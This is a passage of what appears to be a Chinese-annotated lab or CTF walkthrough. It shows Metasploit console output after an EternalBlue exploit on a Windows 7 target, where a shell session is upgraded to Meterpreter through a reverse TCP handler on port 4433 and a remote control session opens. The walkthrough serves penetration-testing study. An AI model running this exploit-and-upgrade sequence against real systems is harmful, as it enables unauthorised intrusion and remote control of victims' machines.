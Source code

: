 ```
    Matching Modules
    ================

    #  Name                                    Disclosure Date  Rank    Check  Description
    -  ----                                    ---------------  ----    -----  -----------
    0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


    Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

    msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
    msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

    Active sessions
    ===============

    Id  Name  Type               Information                                               Connection
    --  ----  ----               -----------                                               ----------
    1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.10.223.84:4444 -> 10.10.46.13:49236 (10.10.46.13)
    ```
    + 查看参数并设置：
      
    ```
    msf6 post(multi/manage/shell_to_meterpreter) > show options 

    Module options (post/multi/manage/shell_to_meterpreter):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
    LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
    LPORT    4433             yes       Port for payload to connect to.
    SESSION                   yes       The session to run this module on


    View the full module info with the info, or info -d command.

    msf6 post(multi/manage/shell_to_meterpreter) > set session 1
    session => 1
    ```
    
    ```
    msf6 post(multi/manage/shell_to_meterpreter) > run

    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on 10.10.223.84:4433 
    [*] Post module execution completed
    msf6 post(multi/manage/shell_to_meterpreter) > 
    [*] Sending stage (200774 bytes) to 10.10.46.13
    [*] Meterpreter session 2 opened (10.10.223.84:4433 -> 10.10.46.13:49245) at 2023-11-28 16:24:46 +0000
    [*] Stopping exploit/multi/handler
    q
    [-] Unknown command: q
    msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

```